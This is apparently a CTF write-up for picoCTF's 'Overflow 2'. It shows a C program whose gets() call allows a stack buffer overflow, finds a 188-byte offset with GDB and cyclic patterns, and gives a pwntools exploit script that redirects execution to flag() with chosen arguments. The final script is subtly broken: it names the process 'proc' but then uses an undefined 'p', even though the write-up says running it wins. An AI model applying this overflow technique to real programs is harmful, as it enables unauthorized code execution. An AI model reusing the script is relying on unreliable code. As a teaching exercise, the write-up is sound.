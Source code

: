 [Back](PicoFrontPage.md)

# Overflow 2

### Tools
* GEF-GDB
* Pwntools - Python3
* Some Python tools
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Some important points:
* Different to overflow-1 because flag function takes arguments
* Calls `gets()` again

I do recommend using a disassembler and debugger to figure out and visualize these as a little challenge though. 

### Analysis

#### Static

So, like overflow-1, the program calls `gets()` so we can overflow that and take control of the return address (feed it `flag()` function's address).
If we `disassemble vuln`, we can see the stack build-up when the `vuln()` function is called.

<!-- disasvulnoverflow2 -->
![Image of GEF](Images/disasvulnoverflow2.png)

So, piecing all of it together, we can see the stack would probably look something like this:

<!-- StackOverflow2 -->
![Image of Stack](Images/StackOverflow2.png)

Doing the calculation: `0xb4 + 0x4 + 0x4 = 0xbc`
Convert it to bytes through:
`
python
0xbc
`
And it should return 188 bytes

#### Dynamic

Let's confirm if what we assumed is right through dynamic analysis.
Use the cyclic tool to get a string to feed to the program: `cyclic 200`

Run GDB for the program: `gdb ./vuln` and then `run`

Feed the string to the input and then analyze!

<!-- OverflowedOverflow2 -->
![Image of overflowed](Images/OverflowedOverflow2.png)

We see that `waab` or `0x62616177` is what is stored as the return address.
And so using `cyclic -l waab` it confirms that it is 188 bytes to reach `$eip`.

#### Arguments

Arguments are actually thrown onto the stack before the instruction pointer.

We can `disassemble flag` to analyze the arguments for the `flag()` function.

<!-- Overflow2args -->
![Image of args](Images/Overflow2args.png)

This can also be seen through a disassembler.

<!-- Overflow2argsdisassembler -->
![Image of argsdisassembler](Images/Overflow2argsdisassembler.png)
<!-- Overflow2argsdisassembler2 -->
![Image of argsdisassembler2](Images/Overflow2argsdisassembler2.png)

We can see that the arguments `0xdeadbeef` and `0xc0ded00d` are stored on the stack at `ebp + 0x8` and `ebp + 0xc`, respectively.
To help you visualize:

<!-- StackOverflow2WithArgs -->
![Image of StackOverflow2WithArgs](Images/StackOverflow2WithArgs.png)

* *"What is something?"*
Truth is, I don't know, I'm just a beginner like you guys.

Now, do the classic, find out the `flag()` address and let's get scripting.

### Exploit

Final script:
```python
from pwn import *

proc = process('./vuln')

# addr and arg variables
addr = 0x80485e6
arg0 = 0xDEADBEEF
arg1 = 0xC0DED00D

# create payload of 188 + return address + 4 bytes + arg1 + arg2
payload = b'A'*188 + p32(addr) + b'A'*4 + p32(arg0) + p32(arg1)

p.recvuntil(b'Please enter your string:')

p.sendline(payload)

p.interactive()
```

Run the script and you should win.

[Overflow 1](overflow1writeup.md)